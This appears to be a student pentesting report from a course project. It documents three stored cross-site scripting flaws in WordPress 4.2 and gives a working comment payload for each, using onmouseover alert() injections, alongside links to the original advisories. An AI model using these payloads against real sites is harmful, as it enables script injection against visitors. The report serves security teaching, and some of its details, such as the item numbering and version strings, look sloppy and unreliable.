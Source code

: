 #Project 7 - Wordpress Pentesting

Time spent: 1 hours spent in total

> Objective: Find, analyze, recreate, and coument vulnerabilities affecting WordPress v4.2

## Pentesting Report

1. (Required) Authenticated Stored Cross-Site Scripting (XSS)

-[x] Summary:
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
    - GIF Walkthrough:
        ![Alt Text]https://i.gyazo.com/761f2461ed3ce9dfc6b94d6e170e7035.mp4

    - Steps to recreate: Make a comment with
        <a href="[caption code=">]</a><a title = " onmouseover=alert('testalert')  ">link</a>

    - Affected source code: https://klikki.fi/adv/wordpress3.html

3. (Required) Unauthenticated Stored Cross-Site Scripting (XSS)

-[x] Summary:
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.4.1.8
    - GIF Walkthrough:
        ![Alt Text]https://gyazo.com/3b8e1e695be57eb746cbdc125da0b79e
    - Steps to recreate: Make a comment with
    <a title='x onmouseover=alert(unescape(/hello%20world/.source))
    style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>

    - Affected source code: https://klikki.fi/adv/wordpress2.html

2. (Required) User List Table Cross-Site Scripting (XSS)

-[x] Summary:
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.4.1.8
    - GIF Walkthrough:
        ![Alt Text]https://i.gyazo.com/f032b382dbea0381aed8f993b0d3863e.mp4

    - Steps to recreate: Make a comment with
         <p>TEST!!!<figure style="width: 1px;" class="wp-caption alignnone"><figcaption class="wp-caption-text">
         <a href="</figcaption></figure></a><a href="http://onMouseOver='alert(1)'">Click me</a></p>

    - Affected source code: https://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/